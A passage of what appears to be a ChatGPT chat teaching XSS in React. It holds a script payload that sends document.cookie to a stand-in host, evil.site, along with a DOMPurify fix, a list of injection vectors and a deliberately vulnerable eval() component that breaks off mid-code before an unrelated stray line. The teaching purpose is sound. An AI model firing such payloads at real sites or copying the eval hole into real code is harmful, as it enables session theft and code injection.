 <script>fetch('https://evil.site/steal?cookie=' + document.cookie)</script>

...to steal session cookies.

✅ Safe Version Using DOMPurify:
jsx
Copy
Edit
import DOMPurify from 'dompurify';

const Comments = () => {
  return (
    <div>
      <h2>Comments</h2>
      {storedComments.map(comment => (
        <div key={comment.id} dangerouslySetInnerHTML={{ __html: DOMPurify.sanitize(comment.text) }} />
      ))}
    </div>
  );
};
Now, malicious scripts are stripped, and only safe HTML (like bold tags, paragraphs) remains.

🧠 Key Takeaways:
XSS is dangerous because attackers don’t need login access — they just inject code via input.

Common attack vectors:

<script></script> tags 

<img onerror=...>

<svg onload=...>

<a href="javascript:...">

Would you like a live CodeSandbox-style example or one involving a form submission?



You said:
show me another example.

ChatGPT said:
Here’s another type of XSS attack example, this time using an <input> field and eval(), which simulates a more dangerous coding mistake developers sometimes make.

⚠️ Example: Reflected XSS via eval() (Very Dangerous)
❌ Vulnerable Code:
jsx
Copy
Edit
import React, { useState } from 'react';

const Search = () => {
  const [query, setQuery] = useState('');
  const [result, setResult] = useState('');

  const handleSearch = () => {
    // ❌ UNSAFE: Directly executing user input
    try {
      const output = eval(query); // BIG mistake
      setResult(output);
    } catch (err) {
      setResult("Error in input");
    }
  };


[a, b]: dependency array — if any of these change, the function will re-run.